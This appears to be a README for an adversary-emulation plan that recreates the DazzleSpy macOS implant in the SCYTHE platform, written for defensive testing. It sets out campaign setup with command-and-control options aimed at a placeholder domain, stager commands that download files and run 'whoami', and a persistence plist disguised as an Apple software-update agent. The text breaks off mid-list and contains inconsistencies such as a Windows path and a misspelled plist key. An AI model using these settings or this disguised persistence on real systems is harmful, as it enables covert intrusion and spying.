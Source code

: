 ##DazzleSpy 

This threat is based on the [WeLiveSecure](https://www.welivesecurity.com/2022/01/25/watering-hole-deploys-new-macos-malware-dazzlespy-asia/) threat report released on January 25,2022. 

# Dazzle Spy 
1. Download and import the threats in JSON format to your SCYTHE instace
2. Download the Virtual File System (VFS) files under DazzleSpy/VFS. 
3. Upload the VFS file to your SCYTHE VFS in the following location: VFS:/shared/DazzleSpy
4. Create a new campaign DazzleSpy with HTTPS and the communication option. You can import the `config.json` or manually add 
`--cp yourdomain.com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10` 
5. Import Existing Threat: *DazzleSpy*
6. Start Campaign


## DazzleSpy Stage 1.
```bash
loader --load downloader 
downloader --src VFS:/shared/ --dest C:/Users/
loader --load run
run whoami
run 

```
1. Persistence 
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE plist PUBLIC "-//Apple/DTD PLIST 1.0//EN"
        "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
    <plist version="1.0">
        <dict>
            <key>KeepAlive</key>
            <true/>
            <key>Label</key>
            <string>com.apple.softwareupdate</string>
            <key> ProgramArgumnets</key>
            <array>
                <string>/var/root/.local/softwareupdate</string>
                <string>1</string>
            </array>
            <key>RunAtLoad</key>
            <true/>
            <key>SuccessfulExit</key>
            <true/>
        </dict>
    </plist>
    ```
2. 